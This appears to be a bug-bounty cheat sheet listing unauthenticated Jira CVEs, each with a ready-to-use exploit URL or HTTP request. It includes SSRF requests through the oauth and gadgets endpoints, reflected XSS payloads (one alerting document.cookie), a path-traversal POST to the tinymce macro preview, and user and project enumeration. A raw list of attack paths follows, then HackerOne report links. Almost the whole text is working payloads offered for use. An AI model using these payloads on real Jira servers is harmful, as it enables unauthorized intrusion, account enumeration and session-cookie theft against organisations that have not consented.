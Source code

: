 # Unauthenticated Jira CVEs
1. CVE-2017-9506 (SSRF)
```
https://<JIRA_URL>/plugins/servlet/oauth/users/icon-uri?consumerUri=<SSRF_PAYLOAD>
```
2. CVE-2018-20824 (XSS)
```
https://<JIRA_URL>/plugins/servlet/Wallboard/?dashboardId=10000&dashboardId=10000&cyclePeriod=alert(document.domain)
```
3. CVE-2019-8451 (SSRF)
```
https://<JIRA_URL>/plugins/servlet/gadgets/makeRequest?url=https://<HOST_NAME>:1337@example.com
```
4. CVE-2019-8449 (User Information Disclosure)
```
https://<JIRA_URL>/rest/api/latest/groupuserpicker?query=1&maxResults=50000&showAvatar=true
```
5. CVE-2019-8442 (Sensitive Information Disclosure)
```
https://<JIRA_URL>/s/thiscanbeanythingyouwant/_/META-INF/maven/com.atlassian.jira/atlassian-jira-webapp/pom.xml
```
6. CVE-2019-3403 (User Enumeration)
```
https://<JIRA_URL>/rest/api/2/user/picker?query=<USERNAME_HERE>
```
7. CVE-2020-14181 (User Enumeration)
```
https://<JIRA_URL>/secure/ViewUserHover.jspa?username=<USERNAME>
```
8. CVE-2020-14178 (Project Key Enumeration)
```
https://<JIRA_URL>/browse.<PROJECT_KEY>
```
9. CVE-2020-14179 (Information Disclosure)
```
https://<JIRA_URL>/secure/QueryComponent!Default.jspa
```
10. CVE-2019-11581 (Template Injection)
```
<JIRA_URL>/secure/ContactAdministrators!default.jspa

* Try the SSTI Payloads
```

11.   CVE-2019-3396 (Path Traversal)
```
POST /rest/tinymce/1/macro/preview HTTP/1.1
Host: {{Hostname}}
Accept: */*
Accept-Language: en-US,en;q=0.5 User-Agent: Mozilla/5.0 (X11; Linux x86_64; rv:60.0) Gecko/20100101 Firefox/60.0
Referer: {{Hostname}}
Content-Length: 168
Connection: close

{"contentId":"786457","macro":{"name":"widget","body":"","params":{"url":"https://www.viddler.com/v/23464dc5","width":"1000","height":"1000","_template":"../web.xml"}}}

*Try above request with the Jira target
```
12.   CVE-2019-3402 (XSS)
```
https://<JIRA_URL>/secure/ConfigurePortalPages!default.jspa?view=search&searchOwnerUserName=%3Cscript%3Ealert(1)%3C/script%3E&Search=Search
```

/secure/ConfigurePortalPages!default.jspa?view=popular
/secure/ManageFilters.jspa?filterView=search&Search=Search&filterView=search&sortColumn=favcount&sortAscending=false
/secure/ContactAdministrators!default.jspa
/servicedesk/customer/user/login
/issues/?jql=
/plugins/servlet/oauth/users/icon-uri?consumerUri=http://google.com
/rest/api/latest/groupuserpicker?query=1&maxResults=50000&showAvatar=true
/plugins/servlet/gadgets/makeRequest?url=https://victomhost:1337@example.com
/plugins/servlet/Wallboard/?dashboardId=10000&dashboardId=10000&cyclePeriod=alert(document.domain)
/secure/QueryComponent!Default.jspa
/secure/ViewUserHover.jspa
/ViewUserHover.jspa?username=Admin
/rest/api/2/dashboard?maxResults=100
/pages/%3CIFRAME%20SRC%3D%22javascript%3Aalert(‘XSS’)%22%3E.vm
/rest/api/2/user/picker?query=admin
/s/thiscanbeanythingyouwant/_/META-INF/maven/com.atlassian.jira/atlassian-jira-webapp/pom.xml
/rest/api/2/user/picker?query=admin
/s/
/plugins/servlet/oauth/users/icon-uri?consumerUri=https://www.google.nl
/secure/ConfigurePortalPages!default.jspa?view=search&searchOwnerUserName=x2rnu%3Cscript%3Ealert(1)%3C%2fscript%3Et1nmk&Search=Search
ConfigurePortalPages.jspa
/plugins/servlet/Wallboard/?dashboardId=10100&dashboardId=10101&cyclePeriod=(function(){alert(document.cookie);return%2030000;})()&transitionFx=none&random=true

https://resisted-soapwort-474.notion.site/jira-b7d61936d6bd4bb7a56c1ab8dd022962

Reference:
- https://twitter.com/harshbothra

REPORTS:- 
https://hackerone.com/reports/713900
https://hackerone.com/reports/1103582
https://hackerone.com/reports/380354
https://hackerone.com/reports/197726
https://hackerone.com/reports/632808
